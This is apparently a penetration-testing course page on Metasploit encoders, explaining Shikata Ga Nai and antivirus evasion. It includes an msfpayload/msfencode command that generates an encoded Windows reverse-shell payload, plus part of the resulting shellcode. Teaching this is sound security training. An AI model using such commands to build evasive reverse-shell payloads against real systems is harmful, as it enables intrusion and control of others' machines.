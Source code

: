 ```yaml
---
description: Shikata Ga Nai
---
```


# Encoders

Over the 15 years of existence of the Metasploit Framework, `Encoders` have assisted with making payloads compatible with different processor architectures while at the same time helping with antivirus evasion. `Encoders` come into play with the role of changing the payload to run on different operating systems and architectures. These architectures include:

| `x64` | `x86` | `sparc` | `ppc` | `mips` |
| ----- | ----- | ------- | ----- | ------ |

They are also needed to remove hexadecimal opcodes known as `bad characters` from the payload. Not only that but encoding the payload in different formats could help with the AV detection as mentioned above. However, the use of encoders strictly for AV evasion has diminished over time, as IPS/IDS manufacturers have improved how their protection software deals with signatures in malware and viruses.

Shikata Ga Nai (`SGN`) is one of the most utilized Encoding schemes today because it is so hard to detect that payloads encoded through its mechanism are not universally undetectable anymore. Far from it. The name (`仕方がない`) means `It cannot be helped` or `Nothing can be done about it`, and rightfully so if we were reading this a few years ago. However, there are other methodologies we will explore to evade protection systems. [This article from FireEye](https://www.fireeye.com/blog/threat-research/2019/10/shikata-ga-nai-encoder-still-going-strong.html) details the why and the how of Shikata Ga Nai's previous rule over the other encoders.

## Selecting an Encoder

Before 2015, the Metasploit Framework had different submodules that took care of payloads and encoders. They were packed separately from the msfconsole script and were called `msfpayload` and `msfencode`. These two tools are located in `/usr/share/framework2/`.

If we wanted to create our custom payload, we could do so through `msfpayload`, but we would have to encode it according to the target OS architecture using `msfencode` afterward. A pipe would take the output from one command and feed it into the next, which would generate an encoded payload, ready to be sent and run on the target machine.

```shell-session
$ msfpayload windows/shell_reverse_tcp LHOST=127.0.0.1 LPORT=4444 R | msfencode -b '\x00' -f perl -e x86/shikata_ga_nai

[*] x86/shikata_ga_nai succeeded with size 1636 (iteration=1)

my $buf = 
"\xbe\x7b\xe6\xcd\x7c\xd9\xf6\xd9\x74\x24\xf4\x58\x2b\xc9" .
"\x66\xb9\x92\x01\x31\x70\x17\x83\xc0\x04\x03\x70\x13\xe2" .
"\x8e\xc9\xe7\x76\x50\x3c\xd8\xf1\xf9\x2e\x7c\x91\x8e\xdd" .
"\x53\x1e\x18\x47\xc0\x8c\x87\xf5\x7d\x3b\x52\x88\x0e\xa6" .
"\xc3\x18\x92\x58\xdb\xcd\x74\xaa\x2a\x3a\x55\xae\x35\x36" .
"\xf0\x5d\xcf\x96\xd0\x81\xa7\xa2\x50\xb2\x0d\x64\xb6\x45" .
"\x06\x0d\xe6\xc4\x8d\x85\x97\x65\x3d\x0a\x37\xe3\xc9\xfc" .
"\xa4\x9c\x5c\x0b\x0b\x49\xbe\x5d\x0e\xdf\xfc\x2e\xc3\x9a" .
"\x3d\xd7\x82\x48\x4e\x72\x69\xb1\xfc\x34\x3e\xe2\xa8\xf9" .
"\xf1\x36\x67\x2c\xc2\x18\xb7\x1e\x13\x49\x97\x12\x03\xde" .
"\x85\xfe\x9e\xd4\x1d\xcb\xd4\x38\x7d\x39\x35\x6b\x5d\x6f" .
"\x50\x1d\xf8\xfd\xe9\x84\x41\x6d\x60\x29\x20\x12\x08\xe7" .
"\xcf\xa0\x82\x6e\x6a\x3a\x5e\x44\x58\x9c\xf2\xc3\xd6\xb9" .

<SNIP>
```
